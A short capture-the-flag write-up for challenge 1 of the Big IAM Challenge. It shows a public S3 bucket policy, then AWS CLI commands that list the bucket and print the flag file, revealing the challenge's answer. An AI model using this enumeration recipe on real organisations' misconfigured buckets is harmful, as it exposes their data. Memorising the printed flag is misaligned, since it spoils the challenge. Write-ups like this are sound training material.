 ```yaml
---

# THE BIG IAM CHALLEGE 
- https://bigiamchallenge.com/challenge/1
---
```


## [Challenge 1](https://bigiamchallenge.com/challenge/1)
###  Buckets of Fun We all know that public buckets are risky. But can you find the flag?

<img width="1396" alt="Screenshot 2025-04-10 at 1 09 16 AM" src="https://github.com/user-attachments/assets/eb889558-9f4c-4077-81bb-f0bd68a817d3" />

#### IAM POLICY
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                }
            }
        }
    ]
}
```


## Solution

```bash
> aws s3 ls s3://thebigiamchallenge-storage-9979f4b
                           PRE files/
> aws s3 ls s3://thebigiamchallenge-storage-9979f4b --recursive
2023-06-05 19:13:53         37 files/flag1.txt
2023-06-08 19:18:24      81889 files/logo.png
> aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt -
{wiz:exposed-storage-risky-as-usual}
> 
 ```

---